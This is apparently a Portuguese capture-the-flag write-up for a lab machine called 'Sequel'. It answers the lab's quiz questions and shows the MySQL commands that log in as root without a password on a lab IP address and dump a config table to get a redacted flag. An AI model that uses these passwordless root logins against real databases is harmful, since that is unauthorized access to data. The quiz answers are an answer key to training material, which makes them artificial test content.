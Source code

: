 # Sequel

#### Tags
`Linux` `SQL` `MariaDB` `Weak Password`

## Questão 
1. **O que significa a sigla SQL?**
*R:* `Structured Query Language`

2. **Durante a varredura, qual porta executando o mysql é encontrada?**
*R:* `3306`

3. **Qual versão do MySQL desenvolvida pela comunidade está sendo executada pelo destino?**
*R:* `MariaDB`

4. **Qual switch precisamos usar para especificar um nome de usuario de login para o serviço MySQL?**
*R:* `-u`

5. **Qual nome de usuário nos permite fazer login no MariaDB sem fornecer uma senha?**
*R:* `root`

6. **Que símbolo podemos usar para especificar dentro da consulta que queremos exibir tudo dentro de uma tabela?**
*R:* `*`

7. **Com que simbolo precisamos terminar cada consulta?**
*R:* `;`

## **Envie a flag root**
*write up:* 
~~~shell
 mysql -u root -h 10.129.51.155 -p
 show databases;
 show htb
 show tables;
 select * from config;
 HTB{∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎}
~~~
